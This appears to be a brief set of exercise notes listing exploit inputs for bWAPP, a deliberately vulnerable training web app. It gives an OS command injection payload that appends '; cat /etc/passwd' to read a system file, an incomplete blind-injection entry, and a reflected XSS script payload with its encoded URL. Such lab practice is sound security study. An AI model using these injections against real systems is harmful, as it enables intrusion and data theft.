 # bWAPP - Exploits

### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```bash
$
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```
